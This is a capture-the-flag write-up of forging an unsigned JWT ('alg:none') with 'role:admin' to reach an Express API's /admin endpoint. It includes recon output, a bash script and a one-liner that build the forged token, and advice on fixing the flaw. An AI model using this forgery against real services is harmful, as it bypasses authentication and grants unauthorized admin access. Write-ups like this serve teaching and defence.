

# JWT `alg:none` Forgery, My Writeup

| | |
|---|---|
| **Platform** | pwnzone (hosted CTF event) |
| **Target** | JSON auth API (no theme page, pure API) |
| **Service** | **Express** (Node.js), HTTP, TCP/8100 (EC2 instance) |
| **IP:Port** | `54.72.82.22:8100` |
| **Flag format** | `safctf{...}` |
| **Author** | lacmyst |
| **Date** | 2026-10-02 |
| **Outcome** | Forged an unsigned (`alg:none`) JWT with `role:admin` and read the flag off `/admin`. Quick one. |

---

## 1. The Short Version

This was an easy, clean one, the bug announced itself. The very first `curl` to `/` set an `auth` cookie and the JSON body literally said **`"no /admin access"`** with `"role":"user"`. Two things jumped out at me immediately: a **role embedded in a client-side token**, and a message dangling `/admin` in my face. Roles don't normally get handed to the client to carry around, if the server *trusts* that token, I control my own role.

The cookie was a **JWT**, and decoding its header gave the whole game away: **`{"alg":"none"}`**, an *unsigned* token. So I rebuilt the token with `"role":"admin"`, left the signature empty (that's what `alg:none` means), sent it to `/admin`, and it returned the flag. First try.

**What I walked away with**

| Flag | Value | How |
|---|---|---|
| Flag | `safctf{1e4d7bdea93b47c2a813ea5a89f20870}` | Forge `alg:none` JWT with `role:admin` → `GET /admin` |

---

## 1.1 Attack Chain



---

## 2. Weakness I Used

| # | What | Class | Where | Severity |
|---|---|---|---|---|
| 1 | Server accepts `alg:none` JWTs, no signature verification | **JWT `alg:none` / Improper Signature Verification** (CWE-347) | `auth` cookie → `/admin` authz | Critical (full auth/authz bypass) |

The whole bug: authorization (`role`) is carried in a token the client can rewrite, and the server never verifies it.

---

## 3. Recon (about 30 seconds)

```bash
$ curl -i http://54.72.82.22:8100
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: auth=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImJvYiIsInJvbGUiOiJ1c2VyIn0.; Path=/; HttpOnly
Content-Type: application/json
{"username":"bob","role":"user","message":"no /admin access"}
```

What I clocked:
- **`X-Powered-By: Express`** → Node.js JSON API.
- **`auth=` cookie** in the shape `xxxxx.yyyyy.`, three dot-separated parts, the last empty → a **JWT with no signature.**
- Body puts **`role:"user"`** and **`"no /admin access"`** right in front of me.

A `role` the client holds is only safe if the server cryptographically verifies it. The empty third segment said it might not.

---

## 4. Decode the Token

JWT = `base64url(header).base64url(payload).signature`. Decoding the first two parts:
```
header : {"alg":"none","typ":"JWT"}
payload: {"username":"bob","role":"user"}
```
**`alg:none`.** That's the finding. It declares the token is **unsigned**, and a vulnerable server will take the payload at face value. Confirmed the gate first:
```bash
$ curl -s -b "auth=<original token>" http://54.72.82.22:8100/admin
{"error":"not admin"}        # 403 — because role=user
```

---

## 5. Forge & Win

Rebuild the token: same `alg:none` header, flip the role, empty signature (trailing dot):
```bash
b64url(){ base64 -w0 | tr '+/' '-_' | tr -d '='; }
H=$(printf '{"alg":"none","typ":"JWT"}'        | b64url)
P=$(printf '{"username":"bob","role":"admin"}' | b64url)
TOK="$H.$P."                                    # note the trailing dot = empty sig

curl -s -b "auth=$TOK" http://54.72.82.22:8100/admin
# {"message":"Welcome, admin!","flag":"safctf{1e4d7bdea93b47c2a813ea5a89f20870}"}
```

> **Flag:** `safctf{1e4d7bdea93b47c2a813ea5a89f20870}`

(Only `role` matters, `username` can stay `bob` or be `admin`, both work.)

---

## 6. Why It Worked & How I'd Fix It

- *Cause:* the server honored the attacker-controlled `alg` and skipped signature verification, so an unsigned token with `role:admin` was trusted.
- *Fix:* verify with a pinned algorithm and a server-only secret, `jwt.verify(token, SECRET, { algorithms: ['HS256'] })`, and **explicitly reject `none`**. Don't trust a `role` you don't cryptographically verify; ideally keep authorization state server-side, not in a client token.

---

## 7. Timeline

- `curl /` → `auth` JWT cookie + `role:user` + "no /admin access".
- Decoded header → **`alg:none`**.
- `/admin` with original token → `403 {"error":"not admin"}`.
- Forged `alg:none` token with `role:admin`, empty sig → `/admin` → **flag.** First try.

---

## 8. References

- RFC 7519 (JWT), RFC 7515 (JWS), the `none` algorithm and why it must be rejected
- OWASP: JWT / JSON Web Token security; CWE-347 (Improper Verification of Cryptographic Signature)
- `jwt_tool`, `jwt_tool <token> -X a` auto-builds the `alg:none` exploit token
- `curl -b "auth=<jwt>"`, sending a forged cookie

---

## 9. Appendix, One-liner

```bash
T=http://54.72.82.22:8100; b64url(){ base64 -w0|tr '+/' '-_'|tr -d '='; }
TOK="$(printf '{"alg":"none","typ":"JWT"}'|b64url).$(printf '{"username":"bob","role":"admin"}'|b64url)."
curl -s -b "auth=$TOK" $T/admin
```
Lesson I'm keeping: **a role (or any authz) sitting in a client-held token is a red flag, decode the token first.** `alg:none` is free admin.
